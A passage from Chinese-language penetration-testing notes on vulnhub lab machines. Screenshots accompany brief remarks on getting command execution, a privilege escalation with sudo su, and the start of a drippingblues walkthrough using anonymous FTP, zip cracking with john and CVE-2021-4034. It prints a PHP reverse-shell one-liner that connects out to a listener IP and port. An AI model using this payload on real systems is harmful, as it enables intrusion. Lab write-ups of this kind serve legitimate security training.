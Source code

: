 ![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image29.png){width="5.760416666666667in"
height="1.5989774715660543in"}

查看发现他可以bash

这时候只能从网页上试试权限了，木马反弹的不太行

这里要在后面加分号才行

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image30.png){width="5.760416666666667in"
height="1.0226027996500437in"}

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image31.png){width="5.760416666666667in"
height="1.064025590551181in"}

bash反弹成功

\<?php system(\"bash -c \'bash -i \>& /dev/tcp/172.16.123.108/7777
0\>&1\'\");?\>

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image32.png){width="5.760416666666667in"
height="2.7516272965879267in"}

很明显这个可以了

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image33.png){width="5.760416666666667in"
height="0.7019860017497813in"}

登录成功

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image34.png){width="5.760416666666667in"
height="1.2648534558180227in"}

sudo su提权成功

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image35.png){width="5.760416666666667in"
height="1.2648534558180227in"}

#### **drippingblues（CVE-2021-4034 [polkit授权管理器 漏洞]{.mark}）**

ftp匿名登录发现zip

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image36.png){width="5.760416666666667in"
height="2.69000656167979in"}

john 爆破成功

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image37.png){width="5.760416666666667in"
height="3.1952318460192477in"}

得到提示

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\高职\vulnhub靶机综合渗透/media/image38.png){width="5.760416666666667in"
height="1.7701793525809273in"}
